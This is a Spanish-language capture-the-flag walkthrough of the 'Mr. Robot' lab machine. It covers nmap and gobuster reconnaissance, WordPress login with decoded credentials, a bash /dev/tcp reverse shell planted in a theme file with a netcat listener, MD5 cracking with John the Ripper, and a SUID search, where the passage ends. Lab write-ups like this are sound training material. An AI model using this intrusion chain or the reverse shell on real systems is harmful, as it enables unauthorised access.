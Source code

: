 # Reto 5 - Mr. Robot
Herramientas utilizadas:
- nmap
- netcat
- john the ripper
- gobuster
- hashidentificar
- hydra
- 

Este reto consiste en aplicar técnicas de hacking para encontrar tres banderas en la máquina víctima. Luego de identificar el host procedemos a utilizar la herramienta ```nmap``` para determinar los servicios y versiones que corren por los puertos que tiene abiertos la máquina víctima.
```
nmap 10.32.2.48 -sCV -Pn -p-
```
```
Host is up (0.084s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE  VERSION
22/tcp  closed ssh
80/tcp  open   http     Apache httpd
|_http-server-header: Apache
|_http-title: Site doesn\'t have a title (text/html).
443/tcp open   ssl/http Apache httpd
|_http-server-header: Apache
|_http-title: 400 Bad Request
| ssl-cert: Subject: commonName=www.example.com
```
Podemos observar que encontramos tres puertos abiertos. Procedemos a revisar la web que se exporta por el puerto 80.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Utilizamos la herramienta ```gobuster``` para listar los directorios existentes en la web.
```
gobuster dir --url http://10.32.2.48/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt

===============================================================
/images (Status: 301)
/video (Status: 301)
/rss (Status: 301)
/image (Status: 301)
/blog (Status: 301)
/0 (Status: 301)
/audio (Status: 301)
/sitemap (Status: 200)
/admin (Status: 301)
/feed (Status: 301)
/robots (Status: 200)
/dashboard (Status: 302)
/login (Status: 302)
/phpmyadmin (Status: 403)
/intro (Status: 200)
/license (Status: 200)
/wp-content (Status: 301)
/css (Status: 301)
/js (Status: 301)
```

Accedemos al directorio **/robots** y nos encontramos con dos ficheros de interés. Listamos el contenido del fichero **key-1-of-3.txt** y encontramos la primera flag del reto.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Primera flag: ```flag{073403c8a58a1f80d943455fb30724b9}```


Revisando otros directorios encontramos que en ```/license``` se mostraba un mensaje que parecía no muy relevante. Al observar al final de la web, nos mostraban una cadena en base64.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Decodificamos la cadena para llevarla a texto claro y obtenemos un posible usuario y contraseña.
```
echo "ZwxsaW90kVSMjgtMDY1Mgo=" | base64 -d
  elliot:ER28-0652
```
Accedemos al panel de login de Wordpress y probamos las credenciales encontradas.

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Ya logueados nos aprovechamos del apartado **Appearance** para subir una **reverse shell** y ganar acceso a la máquina. Agregamos la línea de código siguiente:
```
bash -i >& /dev/tcp/10.8.144.236/4142 0>&1
```
Posteriormente nos ponemos en escucha en nuestra máquina local con ```netcat``` y accedemos al archivo donde se encuentra el código agregado para ganar acceso a la máquina víctima. ```URL:  http://10.32.2.48/wp-content/themes/twentyfifteen/archive.php```
```
nc -nlvp 4142
```

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Dentro de la máquina víctima procedemos a listar el contenido del directorio **/home/robot**

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

Nótese que el archivo de la flag solo puede ser leído por el propietario. Revisamos el fichero **** y encontramos unas credenciales potenciales. 

<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>

La contraseña se encontraba cifrada en MD5 por lo que tubimos que descifrarla utilizando la herramienta ```John The Ripper```
<p align="center"> <img src="../../img_JCE_UCI2024/reto5-1.png" /> </p>
```
john --format=raw-md5 --wordlist=/usr/share/wordlist/rockyou.txt hash.txt
  
  Using default input encoding: UTF-8
  Loaded 1 password hash (Raw-MD5 [MD5 128/128 SSE2 4x3])
  Warning: no OpenMP support for this hash type, consider --fork=2
  Press 'q' or Ctrl-C to abort, almost any other key for status

  abcdefghijklmnopqrstuvwxyz (robot)

```
En este punto nos podemos convertir en el usuario robot proporcionando la contraseña encontrada y listamos la segunda flag del reto.
```
su robot
```
```
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```
Segunda flag: flag{822c73956184f694993bede3eb39f959}

Para encontrar la tercera y última flag del reto necesitamos escalar privilegios para convertirnos en root. Buscamos por permisos SUID y encontramos que el binario nmap está corriendo con permisos SUID.
```
find / -perm -u=s -type f 2>/dev/null
```
